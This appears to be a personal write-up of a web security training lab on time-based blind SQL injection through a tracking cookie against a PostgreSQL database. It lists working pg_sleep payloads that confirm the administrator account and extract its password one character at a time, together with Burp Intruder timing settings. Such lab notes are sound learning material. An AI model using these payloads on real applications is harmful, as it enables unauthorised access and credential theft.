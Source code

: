 Title: Blind SQL injection with time delays and information retrieval
Level: Practitioner
Desc:  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the administrator user. 

payload: `TrackingId=QHvH9SEulpOJRGZ7' || pg_sleep(10)--`
result: we have 10 sec sleep

payload: `TrackingId=QHvH9SEulpOJRGZ7'%3BSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`
result: we have sleep

payload: `TrackingId=QHvH9SEulpOJRGZ7'%3BSELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`
result: we have sleep - administrator exists

payload: `TrackingId=QHvH9SEulpOJRGZ7'%3BSELECT CASE WHEN (username='xadministrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`
result: no sleep

TO GET PASSWORD char by char:
payload: `TrackingId=QHvH9SEulpOJRGZ7'%3BSELECT CASE WHEN SUBSTR(password,1,1)='3' THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users where username='administrator'--`

To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible,
you need to configure the Intruder attack to issue requests in a single thread. To do this, click the Resource pool tab to open the Resource pool side panel and add the attack to a resource pool
with the Maximum concurrent requests set to 1
![image](https://github.com/user-attachments/assets/05db3847-bb9d-4dad-9444-7a36fd66dd2a)


Review the attack results to find the value of the character at the first position. You should see a column in the results called Response received. This will generally contain a small number,
representing the number of milliseconds the application took to respond. One of the rows should have a larger number in this column, in the region of 10,000 milliseconds. The payload showing
for that row is the value of the character at the first position. 

3v46ts3
















